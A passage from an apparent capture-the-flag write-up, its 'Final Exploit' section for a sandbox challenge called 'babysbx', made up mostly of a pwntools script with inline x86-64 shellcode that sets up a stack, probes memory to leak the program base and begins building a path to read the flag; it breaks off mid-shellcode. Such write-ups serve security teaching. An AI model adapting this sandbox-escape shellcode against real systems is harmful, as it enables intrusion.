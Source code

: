## Final Exploit

Putting it all together we get our final shellcode and working exploit.
```python
from pwn import *

elf = ELF("./babysbx")
context.binary = elf

def conn():
    if args.GDB:
        script = """
        b *(main+201)
        c
        """
        p = gdb.debug(elf.path, gdbscript=script)
    elif args.REMOTE:
        p = remote("blackhat.flagyard.com", 32428)
    else:
        p = process(elf.path)
    return p

def run():
    setup_stack = """
    movabs rbp, 0xc0def00
    sub rbp, 0x38
    mov rsp, rbp
    """
    shellcode = asm(setup_stack)

    leak_pie = """
    mov rdi, 0
    mov rax, 0xc
    syscall
    
    mov rdi, rax
    sub rdi, 0x20000
    sub rdi, 0x400
    
    loop:
    sub rdi, 0x1000
    mov rax, 0x23
    syscall
    cmp al, 0
    jne loop
    """
    shellcode += asm(leak_pie)

    set_var = """
    sub rdi, 0x4c00
    add rdi, 0x2000
    mov rbx, rdi
     
    mov rdi, 0xc0de000
    mov rsi, 0x1000
    mov rdx, 0x2000
    mov rax, 0x19
    syscall

    mov rsp, 0xc0de000 + 0x1000 + 0x50 + 0x10
    mov rdi, 0x0000000000000067
    push rdi
    mov rdi, 0x616c66646165722f
```